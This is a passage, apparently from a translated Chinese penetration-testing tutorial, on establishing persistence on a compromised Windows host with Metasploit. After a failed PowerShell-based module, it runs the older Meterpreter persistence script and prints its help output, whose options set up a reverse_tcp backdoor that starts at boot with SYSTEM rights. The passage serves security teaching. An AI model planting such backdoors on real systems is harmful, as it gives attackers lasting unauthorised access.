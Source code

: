 ```
    registry.

```

我们将让模块以默认值运行大多数设置。我们将使用以下命令运行：

*   `set SESSION 4`：设置为当前正在运行的会话
*   `set STARTUP SYSTEM`：这将设置持久有效负载作为系统漏洞运行

![](img/159b1ea5-1ef9-462c-972b-78f3dad47c98.png)

看来我们的利用失败了。我们收到一条警告，PowerShell 不可用。该漏洞确实会写入注册表，但请注意，在运行完成时没有启动新会话。这告诉我们，由于找不到 PowerShell，因此我们的运行失败。由于找不到 PowerShell，让我们尝试一种更老的方法，从正在运行的会话的 MeterMeter shell 中添加持久性，并从 VB 脚本中运行该漏洞。

需要记住的是，这种类型的攻击不需要登录，因此在生产系统上，如果不删除，这将是一个打开的后门，如果让另一个攻击者在机器上运行，则可以访问它。

通过从正在运行的 MeterMeter 会话中运行以下命令，可以读取持久性脚本的帮助文件。正如您所看到的，持久性脚本被列为不推荐使用的脚本，但由于较新的后期利用不起作用，因此最好回退到较旧的方法：

```
    sessions -i 4 Interact with the running session.
    run persistence -h To view the help files.

    meterpreter > run persistence -h

    [!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
    [!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
    Meterpreter Script for creating a persistent backdoor on a target host.

    OPTIONS:

    -A  Automatically start a matching exploit/multi/handler to connect to the agent
    -L <opt> Location in target host to write payload to, if none %TEMP% will be used.
    -P <opt> Payload to use, default is windows/meterpreter/reverse_tcp.
    -S  Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T <opt> Alternate executable template to use
    -U  Automatically start the agent when the User logs on
    -X  Automatically start the agent when the system boots
    -h  This help menu
    -i <opt> The interval in seconds between each connection attempt
    -p <opt> The port on which the system running Metasploit is listening
    -r <opt> The IP of the system running Metasploit listening for the connect back  
```
